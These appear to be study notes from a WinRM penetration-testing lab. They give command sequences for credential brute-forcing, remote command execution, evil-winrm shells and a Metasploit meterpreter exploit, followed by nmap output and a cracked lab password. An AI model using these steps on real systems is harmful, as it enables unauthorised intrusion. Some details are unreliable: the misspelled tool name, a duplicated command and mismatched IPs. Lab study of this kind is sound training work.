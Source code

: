 
#### WinRM
	- Protocol to connect to windows system over https
	- TCP port 5985 5986\
	- crackmapexec for brute forcing credentials 
	- Access control for authentication
	- evil-winrm to obtain command shell


#### Tools
crackmacexe - used to attack protocols, mssql, winrm, ssh, smb
evil-winrm.rb - used to obtain remote shell


#### Commands

Brute force credentials
```
crackmacexe winrm target_ip -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

Execute commands on remote server with crackmacexe
```
crackmacexe winrm target_ip -u username -p password -x "whoami"
```

Get system info from remote machine
```
crackmacexe winrm target_ip -u username -p password -x "whoami"
```

Obtain reverse shell with evil-winrm.rb
```
evil-winrm.rb -u username -p password -i target_ip
```

Meterpreter session against winrm
```
service postgresql start
msfconsole
search winrm_script
use exploit/windows/winrm/winrm_script_exec 
options
set RHOSTS target_ip
set USERNAME username
set PASSWORD password
set FORCE_VBS true
exploit
```

A Kali GUI machine and a target machine running a WinRM server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the WinRM service using the tools available on the Kali machine and then exploit the vulnerability using the Metasploit framework exploit and auxiliary modules.

Objective: Exploit the WinRM service to get a meterpreter on the target and retrieve the flag!

- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
- The IP address of the target machine is mentioned in the file “/root/Desktop/target”
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1
- Dictionaries to use:
- /usr/share/metasploit-framework/data/wordlists/common_users.txt
- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt


```
nmap -p- -sS -sV -T 4 -v 10.4.23.157


135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC

```

```
use auxiliary/scanner/winrm/winrm_login
setg rhosts 10.4.23.196
set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
exploit

[+] 10.4.23.157:5985 - Login Successful: WORKSTATION\administrator:tinkerbell
```